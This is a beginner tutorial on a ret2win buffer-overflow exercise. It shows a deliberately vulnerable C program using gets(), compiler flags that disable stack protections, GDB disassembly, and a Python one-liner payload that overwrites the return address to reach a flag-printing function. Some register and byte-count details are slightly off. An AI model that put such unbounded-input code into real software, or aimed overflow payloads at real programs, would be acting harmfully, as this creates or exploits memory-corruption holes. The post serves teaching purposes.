


# Ret2Win
Ret2Win is terminology which is used in different binary exploitation challenges. It basically means that we are controlling the return address of from a function to control the porgram flow and eventually redirect to our desired (win) function. It can be achieved through `ROP (Return Oriented Programming)` as well. 
However, in this post, we will see how we can exploit buffer overflow to return the program control to our win function and then get the flag!

## Task
We'll create a simple binary that:
- Takes input into a vulnerable buffer
- Lets us overwrite the return address
- When we overwrite it, we redirect the execution to a win() function that prints a flag

## The C Code
Here’s the code we’ll use for this example:
```C
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void win() {
    printf("🎉 You reached win! Here's the flag: Flag{ret2win_success}\n");
}

void vuln() {
    char buffer[40];

    printf("Enter your input: ");
    gets(buffer);  // ❌ vulnerable: no bounds checking
}

int main() {
    vuln();
    printf("✅ Returned safely from vuln()\n");
    return 0;
}
```

We're using `gets()`, which reads input into buffer `without checking bounds`, making it possible to `overflow` and reach past it.

## Compiling the Binary
To disable protections that would stop our exploit, compile it like this:
```
gcc -fno-stack-protector -z execstack -no-pie -o vuln vuln.c
```
- -fno-stack-protector: disables stack canaries
- -no-pie: disables Position Independent Executables (so addresses stay fixed)
- -z execstack: not required here but useful for later shellcode

## Finding the Address of win()
We’ll need to know where win() lives in memory. Use GDB:
```
gdb ./vuln
disassemble win
```



-> starting address is `0x0000000000401176`

## The Layout in Memory
In the vuln() function:
```
char buffer[40]; // 40 bytes
```

The disassemble vuln function is as follows
```
Dump of assembler code for function vuln:
   0x0000000000401190 <+0>:	endbr64
   0x0000000000401194 <+4>:	push   rbp
   0x0000000000401195 <+5>:	mov    rbp,rsp
   0x0000000000401198 <+8>:	sub    rsp,0x30
   0x000000000040119c <+12>:	lea    rax,[rip+0xea2]        # 0x402045
   0x00000000004011a3 <+19>:	mov    rdi,rax
   0x00000000004011a6 <+22>:	mov    eax,0x0
   0x00000000004011ab <+27>:	call   0x401070 <printf@plt>
   0x00000000004011b0 <+32>:	lea    rax,[rbp-0x30]
   0x00000000004011b4 <+36>:	mov    rdi,rax
   0x00000000004011b7 <+39>:	mov    eax,0x0
   0x00000000004011bc <+44>:	call   0x401080 <gets@plt>
   0x00000000004011c1 <+49>:	nop
   0x00000000004011c2 <+50>:	leave
   0x00000000004011c3 <+51>:	ret
End of assembler dump.
```

So we need a payload of 
- 0x30 i.e 48 bytes to fill the buffer
- 8 bytes to overwrite saved EBP (can be junk)
- 4 bytes for the new return address → address of win()

## Exploiting
The command to build and send payload is
```
python3 -c "import sys; sys.stdout.buffer.write(b'A'*56 + b'\x76\x11\x40')" | ./vuln
```

where
- `A'*56`: fills buffer + EBP
- `\x76\x11\x40`: address of win(), in little endian

Hence, we redirected the flow to our win function and got the flag!
